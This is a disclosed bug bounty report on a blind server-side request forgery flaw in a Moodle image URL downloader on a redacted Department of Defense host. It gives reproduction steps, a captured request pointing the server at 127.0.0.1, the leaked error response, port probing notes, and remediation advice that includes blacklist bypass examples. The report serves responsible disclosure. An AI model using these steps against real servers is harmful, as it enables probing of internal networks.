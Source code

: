 # Blind SSRF via image upload URL downloader on https://██████/ 

## Report Details
- **Report ID**: 1691501
- **URL**: https://hackerone.com/reports/1691501
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-09-05T14:26:08.852Z
- **Disclosed**: 2022-10-14T13:36:21.475Z

## Reporter
- **Username**: 696e746c6f6c
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
Dear DoD,

I found Blind SSRF on one domain from Hack US program.  Original domain is https://█████/ but when you make account and login it redirects you to https://███/my/. Here's the video PoC:

██████


Thank you!

## Impact

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems, potentially leaking sensitive data such as authorization credentials. The attack can often result in unauthorized actions or access to data within the organization, either in the vulnerable application itself or on other back-end systems that the application can communicate with. In some situations, the SSRF vulnerability might allow an attacker to perform arbitrary command execution.

## System Host(s)
███████

## Affected Product(s) and Version(s)
Web App is infected.

## CVE Numbers


## Steps to Reproduce
1. Create a one test account.
2. Login to that account.
3. Go to edit profile.
4. Scroll down there.
5. Notice user picture field.
6. Try to upload something.
7. You will see URL downloader.
8. Open your burp collaborator client.
9. Copy and paste the payload in URL downloader, make sure to include /test.png at the ending like this http://example.com/test.png
10. Poll now in burp collaborator client.
11. Notice HTTP and DNS interaction. IP address from HTTP interaction is from internal network which means
we can do some middleware issues. Notice that it's fetching test.png file. And IP is from internal network.
12. Turn your foxy proxy on and open your burp suite.
13. Paste this ipv4 in URL downloader: http://127.0.0.1/test.png
14. Intercept request. Request should look like this:
```javascript
POST /repository/repository_ajax.php?action=signin HTTP/1.1
Host: █████████
Cookie: MoodleSession=c5416a0e3ea3db1606b2876b0b6ac35f; RedirectDouble=1; MOODLEID1_=%25BA%2519V%25E8%25DA%2517
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: */*
Accept-Language: hr,hr-HR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 295
Origin: https://███████
Referer: https://█████/user/edit.php
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

file=http%3A%2F%2F127.0.0.1%2Ftest.png&repo_id=5&p=&page=&env=filemanager&accepted_types[]=.gif&accepted_types[]=.jpe&accepted_types[]=.jpeg&accepted_types[]=.jpg&accepted_types[]=.png&sesskey=h2ixtMF4Fv&client_id=6315fe93ef054&itemid=951353609&maxbytes=1073741824&areamaxbytes=-1&ctx_id=9398501
```
15. You will notice one error showing some info about server which confirms Blind SSRF again. The response looks like this:
```javascript
HTTP/1.1 200 OK
Server: nginx
Date: Mon, 05 Sep 2022 14:05:32 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: PHP/7.4.28
Set-Cookie: RedirectDouble=1; path=/
Set-Cookie: RedirectDouble=1; path=/
Set-Cookie: RedirectDouble=1; path=/
Set-Cookie: RedirectDouble=1; path=/
Cache-Control: no-store, no-cache, must-revalidate
Cache-Control: post-check=0, pre-check=0
Pragma: no-cache
Expires: Mon, 20 Aug 1969 09:23:00 GMT
Last-Modified: Mon, 05 Sep 2022 14:05:32 GMT
Accept-Ranges: none
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Length: 261

{"list":[],"nosearch":true,"norefresh":true,"nologin":true,"error":"HTTP\/1.1 404 Not Found\r\nServer: nginx\r\nDate: Mon, 05 Sep 2022 14:05:32 GMT\r\nContent-Type: text\/html; charset=utf-8\r\nContent-Length: 146\r\nConnection: keep-alive\r\n\r\n","repo_id":5
```
16. By the way if you change to 25 port its leaking something about Postfix SMTP server. 
17. Also I was able to identify that your web app is using libcurl.

## Suggested Mitigation/Remediation Actions
My suggestion is to create whitelisted domains in DNS
The easiest way to remediate SSRF is to whitelist any domain or address that your application accesses.
Blacklisting and regex have the same issue, someone will eventually find a way to exploit them
Do Not Send Raw Responses. Do not use blacklists. use whitelists (allow-lists)
Never send a raw response body from the server to the client. Responses that the client receives need to be expected.
Enforce URL Schemas. Allow only URL schemas that your application uses. There is no need to have ftp://, file:/// or even http:// enabled if you only use https://. And if you do use other schemas make sure that they’re only accessible from the part that needs to access them and not from anywhere else.
Enable Authentication on All Services. Make sure that authentication is enabled on any service that is running inside your network even if they don’t require it. Services like memcached, redis, mongo and others don’t require authentication for normal operations, but this means they can be exploited.
Sanitize and Validate Inputs. Never trust user input. Always sanitize any input that the user sends to your application. Remove bad characters, standardize input (double quotes instead of single quotes for example).After sanitization make sure to validate sanitized input to make sure nothing bad passed through.
Why is it Ineffective to Blacklist Domains and IPs? Understanding SSRF Bypass
One way to protect against SSRF is to blacklist certain domains and IP addresses. This defense technique is not effective, because hackers can use bypasses to avoid your security measures. Below are a few simple ways attackers can bypass blacklists.
Bypassing Blacklists Using HTTPS. Common blacklists blocking everything on port 80 or the http scheme. but the server will handle requests to 443 or https just fine. Instead of using http://127.0.0.1/ use: https://127.0.0.1/ https://localhost/
Or create SSRF protection with Bright.



## Attachments
No attachments

